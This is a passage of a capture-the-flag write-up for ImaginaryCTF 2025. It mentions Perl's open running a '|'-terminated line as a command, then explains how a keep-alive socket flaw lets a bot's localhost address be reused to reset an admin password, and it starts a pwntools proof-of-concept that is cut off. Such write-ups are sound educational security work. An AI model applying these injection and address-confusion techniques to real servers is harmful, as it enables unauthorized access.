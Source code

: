 Perl’s open sees the second line alone, and since it ends with |, it’s treated as a command to execute instead of a file.


## pwntools

![image](https://hackmd.io/_uploads/ByhsXC6qxx.png)

![image](https://hackmd.io/_uploads/ryTDThyige.png)

Source code: https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/tree/main/Web/pwntools/challenge/challenge

we can easily see that `/flag` needs admin authorization. But admin password is random `''.join(random.choices(string.ascii_letters + string.digits, k=12))`.  The `/register` can change admin password but it needs the client IP is 127.0.0.1 The bot can only visit an URL without any headers or body content. 

### The key

The server uses `clients = {}` to store all connections. when having a request, it stores IP address in this socket.

```python
client_sock, addr = server.accept()
```

Then it add a socket with that address to `clients`

```python
client_sock.setblocking(False)
clients[client_sock] = {"addr": addr, "buffer": b""}
print(f"[*] New client {addr}")
```

The socket still there if there is `keep_alive` Connection header 

```python
if not keep_alive:
    s.close()
    del clients[s]
    break
```

And in the next request, it uses the same IP address socket if there is keep_alive socket before. But the address will use the last socket

```python
read_list = [server]+list(clients.keys())
rlist, _, _ = select.select(read_list, [], [], 0.1)
```

POC to let the bot add local IP address socket

```python
from pwn import *
import base64
import re
import time

HOST = "127.0.0.1"
PORT = 5000

def http_send(r, req):
    r.send(req)
    hdr = r.recvuntil(b"\r\n\r\n", timeout=10)
    if not hdr:
        return None, None, None
    m = re.match(br'HTTP/1\.\d\s+(\d{3})', hdr)
    status = int(m.group(1)) if m else None
```